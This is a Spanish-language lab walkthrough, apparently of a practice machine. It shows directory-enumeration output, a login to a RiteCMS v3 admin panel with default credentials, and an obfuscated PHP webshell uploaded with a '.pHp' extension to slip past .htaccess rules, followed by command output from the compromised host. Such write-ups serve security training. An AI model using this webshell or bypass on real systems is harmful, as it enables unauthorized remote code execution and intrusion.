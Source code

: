 ```bash
/examples             (Status: 503) [Size: 407]
/favicon.ico          (Status: 200) [Size: 30894]
/img                  (Status: 301) [Size: 348] [--> http://192.168.161.249:8000/img/]
/Index.php            (Status: 302) [Size: 0] [--> http://192.168.161.249:8000/dashboard/]
/index.php            (Status: 302) [Size: 0] [--> http://192.168.161.249:8000/dashboard/]
/index.php            (Status: 302) [Size: 0] [--> http://192.168.161.249:8000/dashboard/]
/licenses             (Status: 403) [Size: 426]
/lpt1                 (Status: 403) [Size: 307]
/lpt2                 (Status: 403) [Size: 307]
/lpt1.php             (Status: 403) [Size: 307]
/lpt2.php             (Status: 403) [Size: 307]
/lpt1.txt             (Status: 403) [Size: 307]
/lpt2.txt             (Status: 403) [Size: 307]
/nul.php              (Status: 403) [Size: 307]
/nul                  (Status: 403) [Size: 307]
/nul.txt              (Status: 403) [Size: 307]
/phpmyadmin           (Status: 403) [Size: 426]
/prn                  (Status: 403) [Size: 307]
/prn.txt              (Status: 403) [Size: 307]
/prn.php              (Status: 403) [Size: 307]
/server-info          (Status: 403) [Size: 426]
/server-status        (Status: 403) [Size: 426]
/webalizer            (Status: 403) [Size: 426]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

#### Paso 2: Explotacion del vector RCE por RiteCMS v3

1. Accedemos a la url `http//192.168.xxx.249:8000/cms/admin.php`
2. Ingresamos credenciales por defecto **admin/admin** y generamos un login exitoso.
3. De los 4 metodos que expone Exploit Database usaremos el segundo para evadir las reglas de .htaccess.
4. Creamos el webshell.pHp 
> ⚠️ Importante: usar la extensión **.pHp**, respetando mayúsculas y minúsculas.

```php
<?php system($_GET[base64_decode('Y21k')]); ?>
```
#### Una vez creado el webshell.pHp lo subimos en cualquier directorio (media o files) y eso es todo. Tenemos RCE.
```
http://192.168.161.249:8000/cms/media/webshell.pHp?cmd=whoami

legacy\adrian 

---

http://192.168.161.249:8000/cms/media/webshell.pHp?cmd=ipconfig

Windows IP Configuration Ethernet adapter Ethernet0: 
Connection-specific DNS Suffix . : 
IPv4 Address. . . . . . . . . . . : 192.168.161.249 
Subnet Mask . . . . . . . . . . . : 255.255.255.0 
Default Gateway . . . . . . . . . : 192.168.161.254 

---
http://192.168.161.249:8000/cms/media/webshell.pHp?cmd=net user

User accounts for \\LEGACY 
------------------------------------------------------------------------------- 
Administrator 
```